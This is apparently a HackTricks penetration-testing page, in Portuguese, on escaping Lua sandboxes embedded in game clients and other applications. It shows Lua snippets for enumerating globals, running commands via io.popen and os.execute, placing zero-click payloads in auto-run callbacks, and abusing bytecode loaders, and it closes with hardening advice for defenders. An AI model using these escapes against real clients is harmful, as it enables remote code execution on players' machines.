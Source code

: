 # Contornar sandboxes Lua (VMs embutidas, clientes de jogos)

{{#include ../../../banners/hacktricks-training.md}}

Esta página reúne técnicas práticas para enumerar e escapar de sandboxes Lua embutidos em aplicações (notadamente clientes de jogos, plugins ou engines de scripting dentro do app). Muitos engines expõem um ambiente Lua restrito, mas deixam globals poderosos acessíveis que permitem execução arbitrária de comandos ou até corrupção de memória nativa quando bytecode loaders estão expostos.

Principais ideias:
- Trate a VM como um ambiente desconhecido: enumere _G e descubra que primitivas perigosas estão acessíveis.
- Quando stdout/print estiver bloqueado, abuse de qualquer canal UI/IPC in-VM como um output sink para observar resultados.
- Se io/os estiver exposto, frequentemente você tem execução direta de comandos (io.popen, os.execute).
- Se load/loadstring/loadfile estiverem expostos, executar bytecode Lua craftado pode subverter a segurança de memória em algumas versões (≤5.1 verifiers are bypassable; 5.2 removed verifier), permitindo exploração avançada.

## Enumerar o ambiente sandbox

- Faça dump do ambiente global para inventariar tabelas/funções acessíveis:
```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
out("=== DUMPING _G ===")
for k, v in pairs(_G) do
out(tostring(k) .. " = " .. tostring(v))
end
end
```
- Se não houver print() disponível, reutilize canais in-VM. Exemplo de uma VM de script de housing de um MMO onde a saída do chat só funciona após uma chamada de som; o seguinte constrói uma função de saída confiável:
```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
-- Some engines require enabling an audio channel before speaking
H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
return function(msg)
H.Say(label or 1, msg)
end
end

function OnMenu(menuNum)
if menuNum ~= 3 then return end
local out = ButlerOut(1)
dump_globals(out)
end
```
Generalize este padrão para o seu alvo: qualquer campo de texto, toast, logger ou callback de UI que aceite strings pode atuar como stdout para reconhecimento.

## Execução direta de comandos se io/os estiverem expostos

Se o sandbox ainda expõe as bibliotecas padrão io ou os, provavelmente você tem execução imediata de comandos:
```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
Notas:
- A execução ocorre dentro do processo cliente; muitas camadas anti-cheat/antidebug que bloqueiam debuggers externos não impedirão a criação de processos dentro da VM.
- Verifique também: package.loadlib (carregamento arbitrário de DLL/.so), require com módulos nativos, LuaJIT's ffi (se presente), e a debug library (pode elevar privilégios dentro da VM).

## Gatilhos Zero-click via auto-run callbacks

Se o aplicativo host envia scripts para os clientes e a VM expõe auto-run hooks (por exemplo, OnInit/OnLoad/OnEnter), coloque seu payload ali para drive-by compromise assim que o script carregar:
```lua
function OnInit()
io.popen("calc.exe") -- or any command
end
```
Qualquer callback equivalente (OnLoad, OnEnter, etc.) generaliza essa técnica quando scripts são transmitidos e executados no cliente automaticamente.

## Primitivas perigosas para procurar durante recon

Durante a enumeração de _G, procure especificamente por:
- io, os: io.popen, os.execute, file I/O, acesso a variáveis de ambiente (env).
- load, loadstring, loadfile, dofile: executar código-fonte ou bytecode; suporta o carregamento de bytecode não confiável.
- package, package.loadlib, require: carregamento dinâmico de bibliotecas e superfície do módulo.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, e hooks.
- LuaJIT-only: ffi.cdef, ffi.load para chamar código nativo diretamente.

Exemplos mínimos de uso (se acessíveis):
```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
## Escalação opcional: abusando de carregadores de bytecode do Lua

Quando load/loadstring/loadfile estão acessíveis mas io/os estão restritos, a execução de crafted Lua bytecode pode levar a divulgação de memória e primitivas de corrupção. Pontos chave:
- Lua ≤ 5.1 vinha com um verificador de bytecode que tem bypasses conhecidos.
- Lua 5.2 removeu o verificador completamente (posicionamento oficial: aplicações deveriam simplesmente rejeitar precompiled chunks), ampliando a superfície de ataque se o carregamento de bytecode não for proibido.
- Fluxos de trabalho típicos: leak pointers via in-VM output, craft bytecode para criar type confusions (p.ex., em torno de FORLOOP ou outros opcodes), e então pivotar para arbitrary read/write or native code execution.

Este caminho é específico do engine/versão e requer RE. Veja as referências para deep dives, exploitation primitives, e exemplos de gadgetry em jogos.

## Notas de detecção e hardening (para defensores)

- Server side: reject or rewrite user scripts; allowlist safe APIs; strip or bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Client side: run Lua with a minimal _ENV, forbid bytecode loading, reintroduce a strict bytecode verifier or signature checks, and block process creation from the client process.
- Telemetry: alert on gameclient → child process creation shortly after script load; correlate with UI/chat/script events.

## References

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

{{#include ../../../banners/hacktricks-training.md}}
